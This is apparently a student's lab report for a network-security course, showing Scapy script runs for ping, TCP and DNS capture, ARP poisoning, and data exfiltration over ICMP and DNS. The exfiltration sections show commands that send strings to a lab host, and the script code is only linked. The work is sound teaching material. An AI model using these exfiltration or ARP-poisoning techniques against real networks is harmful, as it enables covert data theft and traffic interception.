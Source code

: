 # TP4 SECU : Exfiltration

## I. Getting started Scapy

🌞 ping.py

```
bash
solar@solar:~/Ynov/b2-network-2024$ sudo /bin/python3 ping.py 
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=7c:5a:1c:d3:d8:76 src=b0:dc:ef:bb:ff:9e type=IPv4 |<IP  frag=0 proto=icmp src=10.33.73.81 dst=1.1.1.1 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=b0:dc:ef:bb:ff:9e src=7c:5a:1c:d3:d8:76 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=36798 flags= frag=0 ttl=55 proto=icmp chksum=0x9eaf src=1.1.1.1 dst=10.33.73.81 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 unused=b'' |<Padding  load=b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>>)
```
[script](./Scripts/ping.py)


🌞 tcp_cap.py

```
bash
solar@solar:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 1.1.1.1
- Adresse IP dst : 10.33.73.81
- Port TCP src : 80
- Port TCP dst : 55592
```
[Script](./Scripts/tcp_cap.py)


**🌞 dns_cap.py**

```
bash
solar@solar:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 dns_cap.py 
Begin emission:
Finished sending 1 packets.
...*
Received 4 packets, got 1 answers, remaining 0 packets
104.26.10.233
```
[Script](./Scripts/dns_cap.py)


🌞 dns_lookup.py
```
bash
solar@solar:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 dns_lookup.py 
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
104.26.10.233
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
142.250.200.206
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
140.82.121.3
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
82.67.64.82
```
[Script](./Scripts/dns_lookup.py)


## II. ARP Poisoning

```
bash
[solar@localhost ~]$ ip n s
**192.168.56.148 dev enp0s3 lladdr b0:dc:ef:bb:ff:9e STALE**
192.168.56.102 dev enp0s3 lladdr 08:00:27:f8:a8:b0 STALE 
192.168.56.1 dev enp0s3 lladdr 0a:00:27:00:00:00 REACHABLE 
```
[Script](./Scripts/arp_poisoning.py)


## III. Exfiltration ICMP
🌞 icmp_exf_send.py
```
bash
solar@debian:~/Repo Git/b2-network_2024-2025$ sudo python3 TP4/Scripts/icmp_exf_send.py 192.168.1.11 j
.
Sent 1 packets.
```
[Script](./Scripts/icmp_exf_send.py)  
[Trame Wireshark]('./TP4/icmp_exf_send.pcapng')

## IV. Exfiltration DNS

🌞 dns_exfiltration_send.py
```
bash
solar@debian:~/Repo Git/b2-network_2024-2025$ sudo python3 TP4/Scripts/dns_exfiltration_send.py 192.168.1.11 test
.
Sent 1 packets.
```
[Script](./Scripts/dns_exfiltration_send.py)  
[Trame Wireshark]('./TP4/dns_exfiltration_send.pcapng')